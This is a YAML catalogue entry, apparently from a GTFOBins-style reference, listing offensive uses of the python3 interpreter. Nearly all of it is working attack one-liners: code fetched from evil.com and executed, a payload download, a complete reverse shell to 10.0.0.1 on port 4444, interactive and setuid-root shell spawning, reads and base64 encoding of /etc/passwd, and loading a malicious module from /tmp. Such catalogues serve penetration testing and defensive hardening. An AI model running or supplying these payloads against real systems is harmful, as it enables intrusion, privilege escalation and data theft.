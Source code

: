 ```yaml
---
title: python3
tags: [execution, shell, reverse-shell, file-read, file-write, library-load]
description: Python interpreter that can execute arbitrary code, spawn shells, and manipulate files.
exec: |
  # Execute arbitrary Python code
  python3 -c "import os; os.system('/bin/bash')"
  
  # Execute remote Python script
  python3 -c "import urllib.request; exec(urllib.request.urlopen('https://evil.com/script.py').read())"
shell: |
  # Spawn interactive shell
  python3 -c "import pty; pty.spawn('/bin/bash')"
  
  # Spawn shell with specific user
  python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
reverse-shell: |
  # Basic reverse shell
  python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.0.0.1',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"
file-read: |
  # Read file contents
  python3 -c "print(open('/etc/passwd').read())"
  
  # Read and base64 encode
  python3 -c "import base64; print(base64.b64encode(open('/etc/passwd','rb').read()).decode())"
file-write: |
  # Write to file
  python3 -c "open('/tmp/test','w').write('malicious content')"
  
  # Download and write file
  python3 -c "import urllib.request; urllib.request.urlretrieve('https://evil.com/payload', '/tmp/payload')"
library-load: |
  # Load arbitrary Python modules
  python3 -c "import sys; sys.path.insert(0, '/tmp'); import malicious_module"
layout: binary
---
```

